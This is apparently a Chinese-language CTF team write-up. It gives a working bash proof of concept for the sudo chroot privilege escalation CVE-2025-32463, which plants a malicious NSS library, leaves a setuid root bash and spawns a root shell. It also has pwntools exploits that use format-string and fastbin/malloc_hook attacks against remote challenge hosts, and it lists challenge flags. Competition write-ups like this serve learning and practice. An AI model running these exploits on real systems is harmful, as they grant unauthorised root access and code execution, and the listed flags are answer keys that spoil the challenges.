





# 又想不出队名战队 WriteUp

## 排名
又想不出队名：第54名


## 解题思路

### INFOSec

#### 最近还好吗

根据题目提示搜索得到一个 sudo 的 CVE：https://github.com/KaiHT-Ladiant/CVE-2025-32463/blob/main/README.md

exp.sh：

```bash
#!/bin/bash
# CVE-2025-32463 PoC - Sudo Chroot Privilege Escalation
# Based on research by Rich Mirch @ Stratascale Cyber Research Unit

STAGE=$(mktemp -d /tmp/pentest.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > pentester.c<<'CEOF'
#include <stdlib.h>
#include <unistd.h>

void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  system("id > /tmp/pwned_proof.txt");
  system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash");
  execl("/bin/bash", "/bin/bash", NULL);
}
CEOF

mkdir -p pentest/etc libnss_
echo "passwd: /pentester" > pentest/etc/nsswitch.conf
cp /etc/group pentest/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/pentester.so.2 pentester.c

echo "[*] Exploiting CVE-2025-32463..."
echo "[*] Attempting privilege escalation..."
sudo -R pentest pentest

# Cleanup
rm -rf ${STAGE?}
```

在环境中执行脚本即可提权读到 flag：



最终 flag：`flag{77fb264241d8af4905d54497376be194}`

***

### pwn

#### 我最好的初代同事

三次fmt，程序保护全开。




有个后门函数：



偏移和 main、talk_with_god 很近，直接低字节写返回地址成后门地址。

三轮利用：第一轮泄露libc地址和栈地址，第二轮改rbp链到return address的位置，第三轮改对应rbp的参数位置的低二字节为backdoor 里面 lea rdi 的地址，最后return出去即可执行 system("/bin/sh").  exp:

```python
from pwn import *
from os import *
from wstube import websocket

context(os='linux', arch='amd64', log_level='debug', terminal=['tmux', 'split', '-h'])

script = \
"""
    b game
    b talk_with_god
    c
"""

p=remote("113.201.14.253",22884)

elf = ELF("./fmt")
Libc = ELF("./libc.so.6")

def s(a):
    p.send(a)

def sa(a, b):
    p.sendafter(a, b)

def sl(a):
    p.sendline(a)

def sla(a, b):
    p.sendlineafter(a, b)

backdoor = 0x14E3

# 过人机认证
def pass_captcha():
    p.recvuntil("Please calculate five simple additions\n")
    for i in range(5):
        # 解析形如 "what's 12 add 34"
        try:
            content = p.recvline().decode()
            print(f"[*] Captcha round {i+1}: {content.strip()}")
            nums = re.findall(r"what's (\d+) add (\d+)", content)
            if nums:
                v3, v4 = map(int, nums[0])
                ans = v3 + v4
                sl(str(ans))
            else:
                log.error("Failed to parse captcha")
        except Exception as e:
            log.error(f"Error in captcha: {e}")

pass_captcha()

sla("[2]leave", b"1")

payload = b"%8$p%10$p"
sleep(0.5)
s(payload)
p.recvuntil("Your input:")
pie = int(p.recv(14),16) - 0x11a0
stack = int(p.recv(14), 16)
success("pie : " + hex(pie))
success("stack : " + hex(stack))
rbp = stack - 0x20
ra = (rbp + 8 +0x20) & 0xffff
success("rbp : " + hex(rbp))

sla("[2]leave", b"1")
payload = f"%{ra}c%10$hn".encode()
sleep(0.5)
s(payload)


sla("[2]leave", b"1")
# 14$
backdoor = (pie + backdoor) & 0xffff
payload = f"%{backdoor}c%14$hn".encode()
sleep(0.5)
s(payload)


# sla("[2]leave", b"2")

p.interactive()
```


FLAG: `flag{77ce4cff32b3af6b9d3e0f792178fd1a}`

***

#### 我不吃牛肉

分析一下程序



libc2.23


四个操作都有，add ， delete， edit， show。菜单需要本地模拟一个随机数生成，不是直接选择就行的。



有个UAF，可以泄露libc和heap地址。


edit有个溢出，那么可以随便打了。2.23下，打fastbinattack劫持malloc hook，后面还需要利用realloc调一下栈帧。所以基本上就是劫持fastbin到malloc hook ， malloc hook改成realloc hook，realloc hook改成onegadget即可。

exp:

```python
from pwn import *
from wstube import websocket
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
p = remote("113.201.14.253", 52327)
libc = ELF("./libc.so.6")
Libc = cdll.LoadLibrary("./libc.so.6")

def s(a):
    p.send(a)
def sa(a, b):
    p.sendafter(a, b)
def sl(a):
    p.sendline(a)
def sla(a, b):
    p.sendlineafter(a, b)
def choice(idx):
    for i in range(0, 2**32):
        Libc.srand(i)
        if Libc2.rand() % 4 == idx:
            return i
    return 0

def add(idx, size):
    sla(b"", str(choice(0)))
    sla(b"index:", str(idx))
    sla(b"size:", str(size))
    
def delete(idx):
    sla(b"", str(choice(1)))
    sla(b"index:", str(idx))

def edit(idx, content, length):
    sla(b"", str(choice(2)))
    sla(b"index:", str(idx))
    sla(b"length:", str(length))
    sa(b"content:", content)

def show(idx):
    sla(b"", str(choice(3)))
    sla(b"index:", str(idx))

# Leak Libc
add(0, 0x500)
add(1, 0x60)
delete(0)
show(0)

p.recvline()
libc_base = u64(p.recv(6).ljust(8, b"\x00")) - 0x3c4b78
success(f"libc_base => {hex(libc_base)}")
system = libc_base + 0x453a0
binsh = libc_base + 0x18ce57
onegadget = libc_base + 0xf1247 # 0x4527a 0xf03a4 0xf1247
mallochook = libc_base + 0x3c4b10
realloc = libc_base + 0x84710
realloc_4 = realloc + 0x4
one_gadget = libc_base + 0x4527a

add(0, 0x500)
add(2, 0x60)
add(3, 0x60)
add(4, 0x60)
delete(3)
delete(2)

payload = b"A" * 0x60 + p64(0) + p64(0x71) + p64(mallochook - 0x23)
edit(1, payload, len(payload))

add(5, 0x60)
add(6, 0x60)
payload = b"A" * 0xb + p64(one_gadget) + p64(realloc_4) 
edit(6, payload, len(payload))
sla(b"", str(choice(0)))
p.interactive()
```


FLAG: `flag{3505dbabbc34f5a7184e579dc5e22bee}`

***

### game
#### 我勒个超级玛丽奥
玩通关即可。